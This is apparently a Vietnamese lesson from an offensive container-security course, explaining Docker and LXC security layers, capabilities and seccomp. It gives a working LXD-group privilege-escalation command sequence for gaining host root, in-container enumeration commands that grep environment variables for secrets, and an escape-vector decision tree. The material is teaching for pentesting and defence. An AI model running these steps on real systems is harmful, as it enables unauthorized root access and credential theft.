

> **Prerequisites**: [[16-namespaces-cgroups|16. Namespaces & cgroups]]
> **Objectives**:
> - Hiểu kiến trúc bảo mật đầy đủ của Docker và LXC
> - Nắm rõ chuỗi từ `docker run` đến container process — bước nào apply security
> - Xác định cấu hình nguy hiểm qua `docker inspect`
> - Phân biệt Docker vs LXC/LXD security model
>
---

## Kiến trúc & Cơ chế

![[img-17-docker-security-arch.svg]]
*Hình 17: Docker security stack — từng lớp bảo vệ và attack surface tương ứng*

### Docker Security Model — Chuỗi từ Run đến Process

```bash
docker run --rm -it ubuntu bash
    ↓
Docker CLI → Docker daemon (dockerd)
    ↓
containerd (container lifecycle manager)
    ↓
runc (OCI runtime — tạo container thực sự)
    ↓
runc gọi clone() với namespace flags
    ↓
runc apply: capabilities drop, seccomp, apparmor
    ↓
runc chdir() vào container rootfs (OverlayFS)
    ↓
runc execve() process đầu tiên (PID 1 trong container)
```

**runc là điểm then chốt** — nó là chương trình thực sự tạo container. Bug trong runc = container escape (xem Lesson 24: CVE-2024-21626).

### OverlayFS — Container Filesystem

Docker dùng OverlayFS để layer filesystem:

```bash
Container filesystem view:
┌─────────────────────────────────────────┐
│ Container Layer (writable)              │ ← /var/lib/docker/overlay2/.../diff
├─────────────────────────────────────────┤
│ Image Layer N (read-only)               │ ← e.g., apt install nginx
├─────────────────────────────────────────┤
│ Image Layer N-1 (read-only)             │ ← e.g., ubuntu:22.04 base
├─────────────────────────────────────────┤
│ Base Layer (read-only)                  │
└─────────────────────────────────────────┘

Merged view → /proc/self/mounts thấy "overlay" type
```

**Tại sao relevant cho attacker**: Host path của container layer accessible từ host. Nếu có host access (qua escape), có thể đọc container filesystem trực tiếp.

### Capabilities mặc định của Docker

Docker mặc định drop nhiều capabilities nhưng vẫn giữ lại một số:

```bash
# Capabilities ĐƯỢC GIỮ mặc định (không privileged):
# CAP_CHOWN, CAP_DAC_OVERRIDE, CAP_FSETID, CAP_FOWNER
# CAP_MKNOD, CAP_NET_RAW, CAP_SETGID, CAP_SETUID
# CAP_SETFCAP, CAP_SETPCAP, CAP_NET_BIND_SERVICE
# CAP_SYS_CHROOT, CAP_KILL, CAP_AUDIT_WRITE

# Capabilities BỊ DROP mặc định (quan trọng):
# CAP_SYS_ADMIN    ← nhiều escapes dùng cái này
# CAP_NET_ADMIN    ← eBPF, routing table
# CAP_SYS_MODULE   ← load kernel module
# CAP_SYS_PTRACE   ← ptrace host processes
```

### seccomp Default Profile

Docker's default seccomp profile block ~44 syscalls, quan trọng nhất:

```text
Blocked: mount, umount2, kexec_file_load, kexec_load
         create_module, init_module, delete_module (kernel module)
         ptrace, process_vm_readv, process_vm_writev
         setns                    ← ngăn setns() escape
         perf_event_open          ← eBPF abuse vector
         bpf                      ← eBPF
         userfaultfd              ← race condition assist
         ...
```

Kiểm tra seccomp status:

```bash
cat /proc/self/status | grep Seccomp
# 0 = disabled (--security-opt seccomp=unconfined)
# 2 = filter (default)
```

### LXC vs Docker — Security Differences

| Aspect | Docker | LXC/LXD |
|--------|--------|---------|
| Default user | root in container (mapped?) | root (privileged) hoặc unprivileged |
| User namespace | Optional (`--userns-remap`) | Mandatory trong unprivileged LXC |
| Seccomp | Default profile | Configurable, thường bật |
| AppArmor | Docker-default profile | lxc-container-default profile |
| cgroup | Docker manages | LXC manages trực tiếp |
| Privileged | `--privileged` flag | `lxc.cap.drop = none` |

**LXC unprivileged container** (an toàn hơn):
- Container root = host UID 100000+
- Không thể escalate lên host root dù có kernel root trong container
- (Trừ khi có kernel exploit vượt user namespace)

**LXD privilege escalation path**:

```bash
# Nếu user thuộc group lxd:
lxc image import alpine.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite -- /bin/sh
# → /mnt/root = host /  → chroot /mnt/root → host root!
```

### Enumerate Docker Configuration

```bash
# Từ trong container — enumerate attack surface:

# 1. Kiểm tra privileged
cat /proc/self/status | grep CapEff
# 0000003fffffffff → all caps → privileged

# 2. Kiểm tra Docker socket
ls -la /var/run/docker.sock
# Nếu tồn tại → escape via Docker API

# 3. Kiểm tra sensitive mounts
findmnt -l | grep -E "/host|/proc|docker.sock|/etc|/root"
mount | grep overlay   # → host path của container layer

# 4. Kiểm tra environment variables (thường chứa secrets)
env | grep -iE "token|key|pass|secret|api"

# 5. Kiểm tra network
ip route | grep default   # → gateway IP (host hoặc bridge)

# 6. Container ID (để tìm trên host)
cat /proc/self/cgroup | grep docker | grep -oE '[a-f0-9]{64}'

# 7. Kiểm tra AppArmor
cat /proc/self/attr/current
# docker-default → AppArmor active
# unconfined → không có AppArmor
```

### Docker Inspect từ Host

```bash
# Từ host (sau khi escape hoặc nếu có Docker socket access):
docker inspect <container_id> | python3 -m json.tool | grep -A2 \
    -E "Privileged|SecurityOpt|CapAdd|Binds|Mounts|NetworkMode"

# Xem tất cả mounts:
docker inspect <id> | python3 -c "
import json,sys
d=json.load(sys.stdin)[0]
for m in d['Mounts']:
    print(m.get('Source','?'), '->', m.get('Destination','?'))
"
```

---

## Góc nhìn kẻ tấn công

### Decision Tree — Chọn Escape Vector

```bash
Bước 1: Detect container type và config
         cat /proc/1/cgroup, ls /.dockerenv, capsh --print

Bước 2: Kiểm tra easy wins:
    □ Docker socket mounted? → Lesson 18 (dễ nhất)
    □ Privileged container? → Lesson 18
    □ CAP_SYS_ADMIN + cgroup v1? → Lesson 19
    □ CAP_NET_ADMIN / eBPF available? → Lesson 20

Bước 3: Nếu không có easy win:
    □ Kernel version vulnerable? → Lesson 21-25 (CVE exploitation)
    □ Capability leak nào đó? → Lesson 20

Bước 4: Luôn collect info:
    □ uname -r → kernel version → check CVEs
    □ env → secrets, API tokens
    □ Sensitive mounts → bind-mounted files
```

---

## Pentest Checklist

```bash
□ docker inspect (nếu từ host): xem Privileged, SecurityOpt, Mounts
□ Từ trong container:
    □ cat /proc/self/status → CapEff decode
    □ cat /proc/self/status → Seccomp field
    □ ls /var/run/docker.sock
    □ mount | grep overlay → host layer path
    □ findmnt | grep bind
    □ env | grep -i key/token/pass
    □ uname -r → kernel version
    □ cat /proc/self/attr/current → AppArmor profile
```

---

## Kết nối


